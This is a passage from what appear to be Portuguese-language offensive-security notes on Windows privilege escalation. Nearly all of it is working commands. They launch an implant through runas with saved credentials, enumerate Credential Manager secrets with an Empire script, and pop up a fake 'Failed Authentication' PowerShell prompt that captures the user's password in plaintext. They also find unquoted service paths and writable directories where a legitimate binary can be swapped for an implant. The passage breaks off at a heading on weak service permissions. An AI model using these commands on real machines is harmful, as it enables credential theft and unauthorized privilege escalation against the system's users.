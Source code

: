 - Também podemos usar esse comando para rodar um implant:
  - ``` C:\> runas /savedcred /user:admin "c:\path\to\implant.exe" ```



## Extraindo creds do Credential Manager

- Script from Empire...

- C:\> powershell import-module c:\path\to\cms.ps1 ; Enum-Creds



## Popup local para pegar as creds de um user

- Cria um popup que pede a senha do usuário atual

- ``` C:\> powsershell "$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+[Environment]::Username,[Environment]::UserDomainName); $cred.getnetworkcredential().password" ```

- ``` C:\> powsershell "$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+'CHANGE THIS WITH OTHER USERNAME',[Environment]::UserDomainName); $cred.getnetworkcredential().password" ```

>___


# Insecured Objects (Non Admin Medium IL)

## Insecured Services

### A primeira tecnica é ```Insecure Service Path``` (unquoted and with spaces paths):

- Ache services com espaços no binary path
- ``` C:\> wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """ ```

- verifique permissões do diretorios
- cmd ```> icacls "C:\path\"```
- PS ```> Get-Acl -Path "C:\path\" | fl```

- Depois se o user tiver permissão de escrita no diretorio, você pode simplesmente colocar um implant no lugar do binario legitimo.

- Exploration
  - https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#unquoted-service-paths
  - https://www.ired.team/offensive-security/privilege-escalation/unquoted-service-paths


### A segunda tecnica é de ```insecure config services``` ou ```weak services permission```
